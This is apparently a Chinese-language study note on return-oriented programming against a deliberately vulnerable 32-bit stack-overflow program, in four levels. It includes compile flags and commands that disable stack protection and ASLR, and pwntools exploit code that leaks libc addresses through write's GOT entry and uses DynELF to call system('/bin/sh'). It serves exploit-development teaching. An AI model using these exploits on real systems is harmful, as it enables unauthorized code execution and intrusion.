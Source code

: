 ## 参考文章
1. <http://wps2015.org/drops/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8Blinux_x86%E7%AF%87.html>  
2. <http://wps2015.org/drops/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8Blinux_x64%E7%AF%87.html>

## 总结
很早之前看的两篇经典的rop文章。今天复习了一下x86中rop的利用方法，漏洞是简单的栈溢出，根据利用方式不同分四个level。  

### level1   
```
编译
gcc -fno-stack-protector -z execstack -o level1 level1.c -m32
关闭ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：gdb 中pattern_create、pattern_offset计算offset，溢出返回地址为shellcode即可。
  
gdb attach后会改变程序stack，导致溢出点的栈地址改变，用gdb 调试core dump文件即可。
```
# 开启core dump
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
# 调试core dump
gdb process core-xxxx
# gdb attach 服务
socat TCP4-LISTEN:10001,fork EXEC:./level1
ps aux | grep -E "level1|PID"
sudo gdb attach PID
```
### level2
```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
关闭ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：开启NX后，查看libc中的system和/bin/sh地址即可。`p32(system_addr) + p32(0xdeadbeaf) + p32(binsh_addr)`
```
gdb> print system
gdb> find '/bin/sh\x00'
```

### level3

```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
开启ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
利用方式：开启ASLR后，泄漏libc中任意函数的地址，计算libc中system和/bin/sh的真实地址。
```
# objdump -d -j .plt level3
write_plt = 0x8048320
# objdump -R level3
write_got = 0x0804a014
main = 0x8048460
payload = 'B'*140 + p32(write_plt) + p32(main) + p32(1)  + p32(write_got) + p32(0x10)
p.sendline(payload)

write_addr = u32(p.recv()[0:4])
log.info('write addr :'+ hex(write_addr))

libc = ELF('./libc.so')
write_offset = libc.symbols['write']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search('/bin/sh'))
system_addr = write_addr - (write_offset - system_offset)
binsh_addr = write_addr - (write_offset - binsh_offset)
log.info('system_addr:'+hex(system_addr))

payload2 = 'B'*140 + p32(system_addr) + p32(0xdeafbeaf) + p32(binsh_addr)

```

### level4 
```
编译
gcc -fno-stack-protector -o level1 level1.c -m32
开启ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
不提供libc
```
利用方式：由于无libc，需要通过pwnlib中的DynELF来泄漏system的地址。条件是，可以每次泄漏至少任意地址一个字节。
```
write_plt = 0x8048320
read_plt = 0x8048300
main = 0x8048460

def leak(address):
    payload = 'B'*140 + p32(write_plt) + p32(main) + p32(1)  + p32(address) + p32(4) # 1<= size is ok 
    p.sendline(payload)
    data = p.recv(4)
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data


d = DynELF(leak, elf=ELF('level4'))
system_addr = d.lookup('system', 'libc')
log.info("system_addr=" + hex(system_addr))

# write /bin/sh
bss_addr = 0x0804a020
ret_addr = 0x080484f9 #  pop esi ; pop edi ; pop ebp ; ret
payload = 'B'*140 + p32(read_plt) +  p32(ret_addr) +  p32(0) + p32(bss_addr) + p32(8)
payload += p32(system_addr) + p32(0xdeafbeaf) + p32(bss_addr)

p.sendline(payload)
p.sendline("/bin/sh\x00")
```
